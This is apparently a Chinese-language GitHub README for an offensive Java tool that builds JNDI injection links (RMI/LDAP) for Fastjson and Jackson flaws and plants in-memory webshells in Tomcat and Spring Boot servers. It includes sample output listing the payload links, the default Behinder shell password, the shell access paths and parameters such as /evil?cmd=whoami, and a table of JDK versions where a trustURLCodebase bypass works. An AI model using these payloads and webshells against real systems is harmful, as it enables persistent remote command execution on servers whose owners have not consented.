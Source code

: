 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links---------------------------- 
Target environment(Behinder Filter Memshell):
rmi://127.0.0.1:1099/0gzbmk
ldap://127.0.0.1:1389/0gzbmk
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/q7empz
ldap://127.0.0.1:1389/q7empz
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/knesin
ldap://127.0.0.1:1389/knesin
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/gfco3c
ldap://127.0.0.1:1389/gfco3c
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/emytl0
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/jdky8b
ldap://127.0.0.1:1389/jdky8b
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/4mpkre
ldap://127.0.0.1:1389/4mpkre
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/3uzhzd
ldap://127.0.0.1:1389/3uzhzd
Target environment(Tomcat Filter Memshell):
rmi://127.0.0.1:1099/93hurt
ldap://127.0.0.1:1389/93hurt

----------------------------Server Log----------------------------
2023-08-29 13:00:30 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-29 13:00:30 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-29 13:00:31 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)

- Tomcat Filter Memshell:
  - Tomcat filter内存马，在访问路径/evil?cmd=whoami，可以执行命令
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/5.jpg)

- Behinder Filter Memshell:
  - Behinder filter内存马，访问路径/behinderFilter,并在request header中的shell参数中跟上Behinder，输入密码即可连接
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/6.jpg)
    
## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。



- 实测了一下通过EL表达式来bypassJDK的JNDI注入的`trustURLCodebase`的限制的方法测试版本

| JDK版本  | Springboot版本 | 内置的Tomcat版本     | 能否执行代码 |
| -------- | -------------- | -------------------- | ------------ |
| JDK8u191 | 2.5.13         | Apache Tomcat/9.0.62 | ✅            |
| JDK8u191 | 2.5.14         | Apache Tomcat/9.0.63 | ❌            |



## 待实现

- 添加~~filter~~、~~Interceptor~~类型的内存马。
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马


喜欢的朋友可以帮忙点一个Star。 :）

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
